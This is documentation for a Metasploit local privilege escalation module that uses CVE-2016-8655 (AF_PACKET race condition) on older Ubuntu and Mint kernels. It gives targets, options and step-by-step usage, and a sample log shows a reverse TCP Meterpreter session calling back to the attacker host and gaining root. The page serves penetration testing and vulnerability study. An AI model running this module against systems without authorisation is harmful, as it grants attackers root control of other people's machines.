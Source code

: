 ## Description

  This module exploits a race condition and use-after-free in the
  `packet_set_ring` function in `net/packet/af_packet.c` (`AF_PACKET`) in
  the Linux kernel to execute code as `root` (CVE-2016-8655).

  The bug was initially introduced in 2011 and patched in 2016 in version
  4.4.0-53.74, potentially affecting a large number of kernels; however
  this exploit targets only systems using Ubuntu (Trusty / Xenial) kernels
  4.4.0 < 4.4.0-53, including Linux distros based on Ubuntu, such as
  Linux Mint.

  The target system must have unprivileged user namespaces enabled,
  two or more CPU cores, and SMAP must be disabled.

  Bypasses for SMEP and KASLR are included. Failed exploitation
  may crash the kernel.


## Vulnerable Application

  This module has been tested successfully on:

  * Linux Mint 17.3 (x86_64)
  * Linux Mint 18 (x86_64)
  * Ubuntu 16.04 (x86_64)
  * Ubuntu 16.04.2 (x86_64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/af_packet_chocobo_root_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **TIMEOUT**

  Race timeout (seconds). (default: `600`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Compiled Executable

The module makes use of a pre-compiled exploit executable to be
used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executable was cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar).

```bash
./x86_64-linux-musl-gcc -o chocobo_root -s -pie -static chocobo_root.c
```


## Scenarios

  ```
  msf5 > use exploit/linux/local/af_packet_chocobo_root_priv_esc 
  msf5 exploit(linux/local/af_packet_chocobo_root_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/af_packet_chocobo_root_priv_esc) > run
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.iDLrwN3S4.c' (24885 bytes) ...
  [*] Writing '/tmp/.rMIvkKT' (207 bytes) ...
  [*] Launching exploit (Timeout: 600)...
  [*] Sending stage (853256 bytes) to 172.16.191.209
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.209:38530) at 2018-05-07 03:07:21 -0400
  [+] Deleted /tmp/.iDLrwN3S4.c
  [+] Deleted /tmp/.iDLrwN3S4
  [+] Deleted /tmp/.rMIvkKT

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.209
  OS           : Ubuntu 16.04 (Linux 4.4.0-51-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

